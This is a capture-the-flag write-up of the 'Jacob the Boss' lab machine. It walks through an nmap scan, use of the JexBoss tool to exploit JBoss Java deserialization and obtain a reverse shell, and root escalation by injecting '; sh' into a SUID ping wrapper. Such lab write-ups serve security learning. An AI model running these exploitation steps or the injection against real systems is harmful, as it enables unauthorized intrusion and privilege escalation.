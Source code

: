 ```yaml
---
title: "Jacob the Boss"
tags:
  - Medium
  - Linux
  - nmap
  - Insecure Deserialization
  - Java Serialization
  - Jboss
  - JexBoss
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|   Medium   |  |  10.10.129.18 |  |

---

### [ Set Up ]

The room tells us to add `jacobtheboss.box` to our /etc/hosts file:

![screenshot1](../assets/images/jacob_the_boss/screenshot1.png)

---

### [ user.txt ]

Let's begin with a full nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.129.18
```

**Results:**

```
PORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
[REDACTED]
80/tcp    open  http         syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      syn-ack ttl 61 2-4 (RPC #100000)
[REDACTED]
1090/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
1099/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
[REDACTED]
3306/tcp  open  mysql        syn-ack ttl 61 MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4444/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
4445/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4446/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4457/tcp  open  tandem-print syn-ack ttl 61 Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack ttl 61 Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack ttl 61
[REDACTED]
8009/tcp  open  ajp13        syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
36592/tcp open  java-rmi     syn-ack ttl 61 Java RMI
37259/tcp open  unknown      syn-ack ttl 61
38292/tcp open  landesk-cba? syn-ack ttl 61
```

It looks like there are a whole slew of ports open. What really interests me though, are ports: **22 (SSH)**, **80 (HTTP)**, **8080 (HTTP)** and **8083 (JBOSS)**

Let's first visit `http://jacobtheboss.box`:

![screenshot2](../assets/images/jacob_the_boss/screenshot2.png)

We have a blog page powered by [Dotclear](https://dotclear.org).

I decided to skip enumerating this website first as there was something else that caught my attention. I noticed that **JBoss** was running on the target machine (port 8083)!

---

*Boss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.*

---

From past experiences, I know that certain versions of JBoss are susceptible to **Java deserialization** vulnerabilities. These vulnerabilities allow unauthenticated attackers to achieve remote code execution *(Read more [here](https://www.synopsys.com/blogs/software-security/mitigate-java-deserialization-vulnerability-jboss/))*.

In order for us to exploit these vulnerabilities, we need to have the **Apache Tomcat/Coyote JSP engine (port 8080)** and **JBoss (port 8083)** services running.

Next, I did some research online and found a really nifty tool called [JexBoss](https://github.com/joaomatosf/jexboss). This tool automatically scans for and exploit vulnerabilities in the JBoss application server. Let's use it on our target machine:

```
python jexboss.py -u http://10.10.129.18:8080 
```

![screenshot3](../assets/images/jacob_the_boss/screenshot3.png)

We can see that JexBoss has managed to find 3 vulnerabilities with the JBoss server: **web-console**, **jmx-console**, **JMXInvokerServlet**

It asks if we would like to run an automated exploitation via the web-console.

Upon doing so, it will automatically try to set up a reverse shell for us:

![screenshot4](../assets/images/jacob_the_boss/screenshot4.png)

Fortunately, the exploit worked and our reverse shell was successfully opened:

![screenshot5](../assets/images/jacob_the_boss/screenshot5.png)

Now that we're in, we can obtain **user.txt** from jacob's home directory:

![screenshot6](../assets/images/jacob_the_boss/screenshot6.png)

---

### [ root.txt ]

Now let's figure out a way to escalate our privileges.

I first looked around the file system but was unable to find any interesting files. There was also only 1 non-root user on the machine (jacob), so we also can't move laterally to other accounts.

Next, I searched for files with their **SUID-bit** set:

```
find / -type f -perm /u=s 2>/dev/null
```

![screenshot7](../assets/images/jacob_the_boss/screenshot7.png)

I noticed an interesting binary called `pingsys`.

By the name, I assumed that it ran like `ping`. Let's test it out:

```
pingsys 127.0.0.1
```

![screenshot8](../assets/images/jacob_the_boss/screenshot8.png)

Yep, it functions exactly like `ping`!

I then used `strings` to analyze this binary in greater detail:

![screenshot9](../assets/images/jacob_the_boss/screenshot9.png)

We can see that `pingsys` actually appends the user input (IP address) to the `ping` command directly. 

This is a huge vulnerability as we can exploit this to run other commands on the shell by using `;` as a delimiter. Since `pingsys` is run as root, our commands run will also be privileged.

We'll run `pingsys` like such:

``` 
pingsys '127.0.0.1; sh'
```

Now during execution, `pingsys` will append our input to `ping`, resulting in the following command being run on the shell:

```
ping -c 4 127.0.0.1; sh
```

Because of the delimiter `;`, after `ping` has finished running, the second command `sh` will be run, which will open a shell as root:

![screenshot10](../assets/images/jacob_the_boss/screenshot10.png)

We've successfully escalated our privileges! 

We can now obtain **root.txt** from /root:

![screenshot11](../assets/images/jacob_the_boss/screenshot11.png)
